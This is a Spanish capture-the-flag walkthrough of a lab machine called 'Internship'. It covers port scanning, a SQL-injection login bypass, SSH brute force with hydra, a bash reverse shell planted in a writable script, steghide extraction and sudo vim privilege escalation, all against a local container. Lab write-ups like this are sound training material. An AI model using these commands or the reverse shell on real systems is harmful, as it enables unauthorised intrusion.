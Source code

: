 ```yaml
---
description: '✍️ Autor: s1egfr1ed🔍 Dificultad: Fácil 📅 Fecha de creación: 13/02/2025'
---
```


# Internship

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Viendo el código fuente encontramos un dominio por lo que lo añadimos al `/etc/hosts`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 193843.png" alt=""><figcaption></figcaption></figure>

Recargamos la página y pulsamos a Iniciar Sesión. Al ser un panel de Login realizamos el típico bypass para probar.

```
' or 1=1 -- -
' or 1=1 -- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay unos usuarios por lo que ponemos los nombres en un archivo para realizar fuerza bruta. Nos falta la contraseña por lo que seguimos indagando por lo que escaneamos los directorios.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de un directorio llamado `/spam`. A primera vista nos sale vacío pero revisamos el código fuente.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Parece que contiene información relevante pero esta en ROT13.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 195359.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ahora sí tras descubrir la contraseña hacemos fuerza bruta.

```
hydra -L usuarios -p purpl3 -I ssh://172.17.0.2 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

```bash
ssh pedro@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Dentro del directorio `/opt`, encontramos el script `log_cleaner.sh`, el cual pertenece al usuario `valentina` y tiene permisos de lectura, escritura y ejecución para su propietario, así como permisos de lectura y escritura para otros usuarios.

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/445 0>&1
```

Nos ponemos en escucha.

```
nc -nlvp 445
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay una imagen por lo que nos la traemos a nuestra máquina para realizar la técnica de esteganografía.

```bash
mv profile_picture.jpeg /tmp
chmod 0777 /tmp/profile_picture.jpeg
```

En nuestra máquina local.

```bash
scp pedro@172.17.0.2:/tmp/profile_picture.jpeg .
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Usamos la herramienta de **Steghide**.

```
steghide extract -sf profile_picture.jpeg
```

Miramos el contenido del archivo.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Será la contraseña de valentina.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/vim/#sudo" %}

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
